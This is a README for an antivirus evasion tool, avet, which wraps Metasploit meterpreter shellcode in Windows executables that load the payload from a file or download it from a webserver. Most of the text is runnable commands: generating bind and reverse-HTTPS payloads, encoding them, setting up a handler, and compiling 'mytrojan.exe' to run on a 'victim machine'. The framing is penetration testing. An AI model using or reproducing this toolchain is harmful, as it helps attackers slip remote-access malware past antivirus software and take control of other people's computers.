 AntiVirus Evasion Tool
======================

Please note that this tool was developed based on Backtrack 5, which I still use for some things. Shellcode downloading (-u) is a bit buggy and noisy, so better use the -f switch. Unfortunately I do not have the time to enhance avet or to develop a version that is running with kali. But I think nevertheless it might be interesting for some people. 

For basics about antivirus evasion have a look at my old article: https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines
- avet includes two tools, avet.exe with different antivirus eavasion techniques and make_avet for compiling a preconfigured binary file
- avet.exe loads ASCII encoded shellcode from a textfile or from a webserver
- for encoding the shellcode the tool format.sh and sh_format are included
- Tools used: Based on Backtrack 5, wine, MinGW, metasploit. Works fine on different systems.


How to use avet.exe
-------------------

You can use the precompiled avet.exe file as a shellcode loader.

Example 1, loading shellcode from a file:

Attackers machine:
$ msfpayload windows/meterpreter/bind_tcp C > sc.txt
$ ./format.sh sc.txt > sc_clean.txt

Copy sc_clean.txt & avet.exe to the victim machine.

$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 

On the victim machine:
c:\whatever>avet.exe -f shellcode.txt


Example 2, loading shellcode from a webserver:

Attackers machine:
$ msfpayload windows/meterpreter/bind_tcp C > sc.txt
$ ./format.sh sc.txt > sc_clean.txt

Copy sc_clean.txt to your webroot and avet.exe to the victim machine.

$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 

On the victim machine:
c:\whatever>avet.exe -u yourserver/sc_clean.txt


How to use make_avet
--------------------
Compile if needed:
$ gcc -o make_avet make_avet.c

Example 1, compile shellcode into the .exe file:

$ msfpayload windows/meterpreter/reverse_https lhost=192.168.2.112 lport=443 C > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ ./make_avet -f sh_clean.txt
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o mytrojan.exe avet.c


Example 2, make an .exe file that downloads a shellcode from a webserver:

$ msfpayload windows/meterpreter/reverse_https lhost=192.168.2.112 lport=443 C > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ cp sh_clean.txt /var/www
$ ./make_avet -u 192.168.2.112/sh_clean.txt
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o mytrojan.exe avet.c

Check out the other options as well:
-f compile shellcode into avet.exe, needs filename
-u load and exec shellcode from url using internet explorer
-p print debug information
-h help


Some notes
----------

Rebuild avet.exe:
No problem, ensure no content is in defs.h (echo "">defs.h), then compile with:
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o avet.exe avet.c

Have a look for build.sh for easier handling.
